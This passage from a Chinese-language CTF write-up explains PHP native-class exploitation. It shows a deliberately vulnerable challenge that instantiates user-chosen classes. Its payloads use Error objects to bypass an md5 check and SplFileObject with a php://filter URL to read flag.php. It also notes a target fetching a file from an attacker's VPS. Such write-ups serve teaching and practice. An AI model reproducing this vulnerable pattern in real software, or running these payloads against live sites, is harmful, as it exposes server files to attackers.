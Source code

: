 ```
</image>
------WebKitFormBoundaryeTvfNEmqTayg6bqr--
```

发送后，靶机就往VPS中请求了该⽂件，并且把该⽂件下载到了指定⽬录

可以发现这里的利用条件也是非常苛刻的

## 出题

通过以上知识点,我就想到可以由此来出个web题,这里我们会发现虽然new $a($b)不能RCE,但是还是可以成功触发原生类的特性的,那么就可以通过原生类绕过加密的特性来作为考点

这里我们来看这一题的源码

```
<?php
highlight_file(__FILE__);
$a = new $_GET['class1']($_GET['a']);$b = new $_GET['class2']($_GET['b']);
if ($a !== $b and md5($a)===md5($b))
{
    echo new $_GET['class3']($_GET['c']);
}
```

我们首先利用php原生类Error来绕过md5过滤

```
/index.php?a=1&b=2&class1=Error&class2=Error
```

然后通过SplFileObject类以base64的形式来读取文件

```
class3=SplFileObject&c=php://filter/convert.base64-encode/resource=flag.php
```

最后成功读取这个flag文件